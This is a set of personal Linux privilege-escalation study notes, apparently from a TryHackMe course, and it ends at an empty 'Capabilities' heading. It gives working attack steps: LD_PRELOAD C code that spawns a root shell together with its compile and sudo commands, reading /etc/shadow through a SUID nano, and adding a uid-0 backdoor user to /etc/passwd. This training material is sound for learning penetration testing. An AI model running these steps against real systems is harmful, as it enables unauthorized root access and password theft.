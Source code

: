 # Privelege Escalation Notes

[Reference](https://tryhackme.com/room/linprivesc)

Enumeration is the first step you have to take once you gain access to any system. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. As you will see, enumeration is as important during the post-compromise phase as it is before.

Enumeration checks (atleast):

    - hostname
    - uname -a
    - /proc/version
    - /etc/issue
    - ps [-A][axjf][aux]
    - env
    - sudo -l
    - ls
    - id
    - /etc/passwd
    - history
    - ifconfig
    - netstat [-a][-t][-u][-l][-s][-p][-i][-ano]
    - find [-name][-type][-perm][-user][-size][-time] :Find tools -> find / -name perl*|| find / -name python*|| find / -name gcc*
    - locate
    - grep

## Automated enumeration tools

These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.
These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

    - [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
    - [LinEnum](https://github.com/rebootuser/LinEnum)
    - [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
    - [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
    - [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

## Kernel Exploit

[Reference: Linux Privilege Escalation - Kernel Exploits](https://steflan-security.com/linux-privilege-escalation-kernel-exploits/)

The following command can be used to manually enumerate kernel info:

    uname -a ; lsb_release -a; cat /proc/version /etc/issue /etc/*-release; hostnamectl | grep Kernel

The Kernel exploit methodology is simple:

    1. Identify the kernel version
    2. Search and find an exploit code for the kernel version of the target system
    3. Run the exploit

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.

Search for the exploit can be done using Google for an existing exploit code, a [CVE database](https://www.linuxkernelcves.com/cves), exploit-db, searchsploit. Note: be extremely specific of the kernel version. Read the comments of the code carefully, some exploits might need further interaction. You can transfer the exploit code from your machine to the target system using the SimpleHTTPServer Python module and wget respectively.

Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## Sudo

The sudo command, by default, allows you to run a program with root privileges.
Any user can check its current situation related to root privileges using the "sudo -l" command. [GTFObins](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

### Leverage application functions

    Some applications will not have a known exploit within this context.
    Example, for apache2 server, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (-f : specify an alternate ServerConfigFile).
    Loading the /etc/shadow file using this option will result in an error message that includes the first line of the /etc/shadow file.

### Leverage LD_PRELOAD

On some systems, you may see the LD_PRELOAD environment option.
LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

    Check for LD_PRELOAD (with the env_keep option)
    Write a simple C code compiled as a share object (.so extension) file
    Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }

The code can be saved & compiled using gcc into a shared object file using the following parameters(shell.c is the file name of the above .c file):

    gcc -fPIC -shared -o shell.so shell.c -nostartfiles

We can now use this shared object file when launching any program our user can run with sudo. In the example case, Apache2, find, or almost any of the programs we can run with sudo can be used. (i.e. found via the sudo -l command)

We need to run the program by specifying the LD_PRELOAD option, as follows;

    sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

## SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
You will notice these files have an "s" bit set showing their special permission level.

List files that have SUID or SGID bits set:

    find / -type f -perm -04000 -ls 2>/dev/null

A good practice would be to compare executables on this list with [GTFOBins](https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set.
GTFObins does not directly provide us with an easy win. Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.
Let's consider the example: The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner's privilege.
Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the /etc/shadow file or adding our user to /etc/passwd.

### Option 1: Read /etc/shadow & Crack the password

We see that the nano text editor has the SUID bit set by running the find / -type f -perm -04000 -ls 2>/dev/null command.

    "nano /etc/shadow" will print the contents of the /etc/shadow file.

We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the /etc/shadow and /etc/passwd files.

### Option 2 : Add a new user that has root privileges

This would help us circumvent the tedious process of password cracking.
We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

    openssl passwd -1 -salt <salt-vale> <password>

-1 > MD5-based password algorithm

-salt val > Use provided salt

Since we used the MD5 hash with salt, the output would be something like:

    $1$<salt-value>$<some-hash>

This entire thing is the salted hash. Which can then be added into the /etc/passwd file. Thus, at the end of the file, we add:

    hackeruser:$1$<salt-value>$<some-hash>:0:0:root:/root:/bin/bash

- hackeruser > it is the username
- The entire salted hash has to be pasted here
- root:/bin/bash was used to get a root shell

Once our user is added (please note how root:/bin/bash was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.

## Capabilities
